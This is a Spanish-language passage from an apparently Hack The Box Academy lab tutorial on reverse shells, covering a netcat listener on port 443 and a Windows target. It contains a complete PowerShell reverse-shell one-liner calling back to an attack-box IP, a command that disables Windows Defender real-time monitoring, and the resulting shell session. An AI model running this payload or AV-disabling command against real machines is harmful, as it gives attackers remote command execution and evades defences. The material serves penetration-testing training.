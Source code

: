 Con una `reverse shell`, la caja de ataque tendrá un listener ejecutándose, y el target necesitará iniciar la conexión.

### Reverse Shell Example

![image](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)

A menudo usaremos este tipo de shell al encontrarnos con sistemas vulnerables porque es probable que un administrador pase por alto las conexiones salientes, dándonos una mejor oportunidad de no ser detectados. La última sección discutió cómo las bind shells dependen de conexiones entrantes permitidas a través del firewall en el lado del servidor. Será mucho más difícil lograr esto en un escenario del mundo real. Como se ve en la imagen de arriba, estamos iniciando un listener para una reverse shell en nuestra caja de ataque y usando algún método (ejemplo: `Unrestricted File Upload`, `Command Injection`, etc.) para forzar al target a iniciar una conexión con nuestra caja de ataque, lo que significa efectivamente que nuestra caja de ataque se convierte en el servidor y el target se convierte en el cliente.

No siempre necesitamos reinventar la rueda cuando se trata de payloads (comandos y código) que pretendemos usar al intentar establecer una reverse shell con un target. Hay herramientas útiles que los veteranos de infosec han reunido para ayudarnos. [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) es un recurso fantástico que contiene una lista de diferentes comandos, códigos e incluso generadores automatizados de reverse shell que podemos usar al practicar o en un compromiso real. Debemos tener en cuenta que muchos administradores están al tanto de repositorios públicos y recursos de código abierto que los pentesters usan comúnmente. Ellos pueden referenciar estos repos como parte de sus consideraciones principales sobre qué esperar de un ataque y ajustar sus controles de seguridad en consecuencia. En algunos casos, puede que necesitemos personalizar un poco nuestros ataques.

Vamos a trabajar de forma práctica con esto para entender mejor estos conceptos.

---

## Hands-on With A Simple Reverse Shell in Windows

Con este tutorial, estableceremos una simple reverse shell utilizando algo de código PowerShell en un target Windows. Iniciemos el target y comencemos.

Podemos iniciar un listener de Netcat en nuestra caja de ataque mientras el target se inicia.

### Server (`attack box`)

```r
sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

Esta vez, con nuestro listener, lo estamos vinculando a un [common port](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-ports.html) (`443`), este puerto usualmente es para conexiones `HTTPS`. Puede que queramos usar puertos comunes como este porque cuando iniciamos la conexión a nuestro listener, queremos asegurarnos de que no se bloquee al salir a través del firewall del OS y a nivel de red. Sería raro ver a cualquier equipo de seguridad bloquear el puerto 443 saliente ya que muchas aplicaciones y organizaciones dependen de HTTPS para acceder a varios sitios web a lo largo del día. Dicho esto, un firewall capaz de inspección profunda de paquetes y visibilidad de la Capa 7 puede detectar y detener una reverse shell saliendo en un puerto común porque examina el contenido de los paquetes de red, no solo la dirección IP y el puerto. La evasión detallada de firewalls está fuera del alcance de este módulo, por lo que solo tocaremos brevemente las técnicas de detección y evasión a lo largo del módulo, así como en la sección dedicada al final.

Una vez que el target Windows se haya iniciado, conectémonos usando RDP.

Netcat se puede usar para iniciar la reverse shell en el lado de Windows, pero debemos tener en cuenta qué aplicaciones están presentes en el sistema ya. Netcat no es nativo de los sistemas Windows, por lo que puede ser poco confiable contar con él como nuestra herramienta en el lado de Windows. Veremos en una sección posterior que para usar Netcat en Windows, debemos transferir un binario de Netcat a un target, lo que puede ser complicado cuando no tenemos capacidades de carga de archivos desde el inicio. Dicho esto, es ideal usar cualquier herramienta que sea nativa (living off the land) al target al que estamos tratando de acceder.

`What applications and shell languages are hosted on the target?`

Esta es una excelente pregunta para hacer cada vez que intentamos establecer una reverse shell. Usemos el command prompt y PowerShell para establecer esta simple reverse shell. Podemos usar una línea de comando estándar de reverse shell de PowerShell para ilustrar este punto.

En el target Windows, abre un command prompt y copia y pega este comando:

### Client (target)

```r
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Nota: Si estamos usando Pwnbox, ten en cuenta que algunos navegadores no funcionan tan bien al usar la función de Clipboard para pegar un comando directamente en la CLI de un target. En estos casos, puede que queramos pegar en Notepad en el target, luego copiar y pegar desde dentro del target.

Por favor, observa detenidamente el comando y considera qué necesitamos cambiar para que esto nos permita establecer una reverse shell con nuestra caja de ataque. Este código de PowerShell también puede llamarse `shell code` o nuestro `payload`. Entregar este payload en el sistema Windows fue bastante sencillo, considerando que tenemos control total del target para fines de demostración. A medida que este módulo avanza, notaremos que la dificultad aumenta en cómo entregamos el payload a los targets.

`What happened when we hit enter in command prompt?`

### Client (target)

```r
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

El software `Windows Defender antivirus` (`AV`) detuvo la ejecución del código. Esto está funcionando exactamente como se pretende, y desde una perspectiva `defensiva`, esto es una `victoria`. Desde un punto de vista ofensivo, hay algunos obstáculos que superar si el AV está habilitado en un sistema al que intentamos conectarnos. Para nuestros propósitos, querremos deshabilitar el antivirus a través de los `Virus & threat protection settings` o usando este comando en una consola PowerShell administrativa (clic derecho, ejecutar como administrador):

### Disable AV

```r
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

Una vez que el AV esté deshabilitado, intenta ejecutar el código nuevamente.

### Server (attack box)

```r
sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

De vuelta en nuestra caja de ataque, deberíamos notar que hemos establecido con éxito una reverse shell. Podemos ver esto por el cambio en el prompt que comienza con `PS` y nuestra capacidad para interactuar con el sistema operativo y el sistema de archivos. Intenta ejecutar algunos comandos estándar de Windows para practicar un poco.

Ahora, pongamos a prueba nuestros conocimientos con algunas preguntas de desafío.